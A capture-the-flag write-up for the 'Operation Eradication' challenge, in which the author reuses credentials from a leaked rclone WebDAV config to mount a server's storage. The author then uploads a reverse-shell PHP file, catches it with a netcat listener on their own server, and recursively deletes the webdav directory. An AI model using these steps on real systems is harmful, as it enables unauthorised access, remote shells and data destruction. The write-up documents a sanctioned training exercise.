 # Operation Eradication


## Description

```
Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment! They stole our data!

Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and delete all the data they stole!?
```

## Writeup

Starting off I downloaded the file and got the following content. <br/>
```yml
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

After seeing this I took a look at the website. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/437bc667-ff8d-482f-a684-ffd81f4e1c5d)

Directory Scan: <br/>
```sh
ffuf -u http://chal.ctf.games:32072/FUZZ -w ../../webhacking/wordlists/directory_scanner/common.txt     

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://chal.ctf.games:32072/FUZZ
 :: Wordlist         : FUZZ: /home/kali/webhacking/wordlists/directory_scanner/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 3602ms]
    * FUZZ: .hta

[Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 4507ms]
    * FUZZ: .htaccess

[Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 5000ms]
    * FUZZ: .htpasswd

[Status: 200, Size: 740, Words: 58, Lines: 17, Duration: 187ms]
    * FUZZ: index.php

[Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 147ms]
    * FUZZ: server-status

[Status: 401, Size: 464, Words: 42, Lines: 15, Duration: 151ms]
    * FUZZ: webdav

:: Progress: [4613/4613] :: Job [1/1] :: 268 req/sec :: Duration: [0:00:21] :: Errors: 0 ::
```

Seems like I found `/webdav`. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/0811ee76-1d44-41f8-b3b2-e94b6e4359f4)

Trying to access it I got a login prompt which was not accessable with default credentials. <br/>
After some researching I found that the configuration file I got in the beginning matches a Tool to connect to webdav. <br/>

Knowing that I tried to import the configuration file and change it up a bit. <br/>
```yml
[yeet]
type = webdav
url = http://chal.ctf.games:32072
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Using this I executed the command: <br/>
```sh
kali@kali rclone ls yeet:/webdav/             
  3510400 HumanResources/EmployeeHandbook.pdf
  3570194 ProductDevelopment/2023/ProductRoadmap.pdf
  1745724 ProductDevelopment/2022/ProductRoadmap.pdf
  3279252 ProductDevelopment/Designs/NewProductDesign.pdf
  3210830 ProductDevelopment/Designs/UpdatedProductDesign.pdf
--------------------------------------------------------------
```

Seems like this worked and I can connect to the machine with this tool. <br/>

Using `rclone` we can than mount the whole /webdav/ directory into one of our own. <br/>
```sh
kali@kali rclone mount yeet:/webdav/ ./mounted_dir

kali@kali ls mounted_dir/
Accounting  HumanResources  Legal      Operations          Sales   remover.sh
Finance     IT              Marketing  ProductDevelopment  del.sh  rev_shell.php
```

Now I copied a reverse shell into the mounted directory and executed it with `cat rev_shell.php`. (Don't ask me) <br/>
This opens a reverse shell on my Vserver on its public IP. <br/>
```sh
nc -lnvp 1234
listening on [any] 1234 ...


connect to [REDACTED] from (UNKNOWN) [34.123.224.68] 32070
Linux operation-eradication-266f1c7f2786d51f-8498b5d548-zbmvq 5.15.109+ #1 SMP Fri Jun 9 10:57:30 UTC 2023 x86_64 GNU/Linux
 17:22:35 up  4:18,  0 users,  load average: 0.44, 0.25, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ export TERM=xterm
```

Seems like this gave me a reverse shell so I checked the apache configuration: <br/>
```sh
$ cat /etc/apache2/sites-available/*


-----------------------------
DocumentRoot /var/www/html
-----------------------------
```

Knowing the `DocumentRoot` we can take a look at this directory. <br/>
```sh
$ ls -R /var/www/
/var/www/:
html

/var/www/html:
index.php
webdav
```

Knowing that the challenge is to delete all data in webdav I just removed the whole directory: <br/>
```sh
$ rm -r webdav/ 
```

Now I take a look at the website again where I found the Flag: <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/c68b1c23-fc4d-49ea-a44c-c5427d30e8c3)





